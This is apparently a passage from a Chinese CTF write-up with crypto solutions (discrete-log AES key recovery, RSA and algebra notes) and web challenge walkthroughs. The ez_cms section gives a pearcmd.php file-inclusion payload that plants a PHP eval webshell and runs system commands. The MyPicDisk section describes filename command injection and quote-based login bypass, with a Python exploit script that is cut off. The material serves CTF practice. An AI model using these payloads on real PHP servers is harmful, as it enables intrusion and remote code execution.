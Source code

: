 ```javascript

alice = sympy.ntheory.discrete_log(p, alice_c, g)
print("alice: ", alice)

key = sha256(long_to_bytes(pow(bob_c, alice, p))).digest()
print("key: ", key)

iv = b"dasctfdasctfdasc"
aes = AES.new(key, AES.MODE_CBC, iv)
flag = aes.decrypt(enc)
print("flag: ", flag)
```
### ezRSA
[https://www.cnblogs.com/Cryglz/p/17456832.html](https://www.cnblogs.com/Cryglz/p/17456832.html)
[https://www.cnblogs.com/ZimaBlue/articles/17484824.html](https://www.cnblogs.com/ZimaBlue/articles/17484824.html)
[https://jsur.in/posts/2020-05-13-sharkyctf-2020-writeups#noisy-rsa](https://jsur.in/posts/2020-05-13-sharkyctf-2020-writeups#noisy-rsa)
### ezAlgebra
对第一个等式展开在环n上得到t的四次方程，可求解t，然后gcd一下分解出一个p。
对第二，第三个等式在环q*r上求groebner基，得到m，M=m%q,然后小规模爆破还原M
## WEB
### ez_cms
pearcmd.php包含 rce
/admin，弱密码admin，123456
payload：
```
/?+config-create+/&r=../../../../usr/share/php/pearcmd&/<?=eval($_GET[1]);?>+/tmp/hello.php

/admin?r=../../../../../tmp/hello&1=system("ls");
```
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690010441609-eb962b83-11c1-4334-a573-4288e759435a.png#averageHue=%23f4f3f2&clientId=u3293cff2-3606-4&from=paste&id=u4e20a595&originHeight=687&originWidth=1280&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u52f6710d-e1ac-494a-a95c-10efd08086c&title=)
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690010441601-0513b4d8-bed4-45eb-9d1c-d25cda17ddc4.png#averageHue=%23666461&clientId=u3293cff2-3606-4&from=paste&id=uc93f670c&originHeight=687&originWidth=1291&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u7980c83b-f04a-4a23-a699-146a7ddfec6&title=)
![](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690010441602-78b7d622-029a-476d-afd3-4e914b904b9c.png#averageHue=%23676563&clientId=u3293cff2-3606-4&from=paste&id=ua94b2374&originHeight=687&originWidth=1291&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u93e933ee-63c2-4b5d-868f-3f0dcf269ce&title=)
### MyPicDisk
反引号执行命令；base64编码绕过
/y0u_cant_find_1t.zip，查看源码
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690859133317-0625ac67-f133-4993-b762-78718bf99b4d.png#averageHue=%23292d37&clientId=u786887c5-3901-4&from=paste&height=302&id=u19288c66&originHeight=302&originWidth=777&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29258&status=done&style=none&taskId=u4cc61da5-ff3b-451c-bc0c-51e688ee1aa&title=&width=777)
（为什么admin'能绕过
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690859168112-9e83ab3a-188a-4818-971f-b11ccc0e9769.png#averageHue=%23282d36&clientId=u786887c5-3901-4&from=paste&height=691&id=ud2e6e1bd&originHeight=691&originWidth=1143&originalType=binary&ratio=1&rotation=0&showTitle=false&size=57640&status=done&style=none&taskId=ubeb70aed-cc85-416c-8e5d-5d041ed20f7&title=&width=1143)
文件名用命令拼接，先上传再访问
payload：
```javascript
import base64
import requests

url = "http://c0613360-527a-49fb-8936-952d331ee12b.node4.buuoj.cn:81/"

data = {
    "username":"admin'",
    "password":"admin",
    "submit":"mof"
}
headers = {
    "Cookie":"PHPSESSID=080f5551eb5516a632c2e85ad8835f3e"
}

```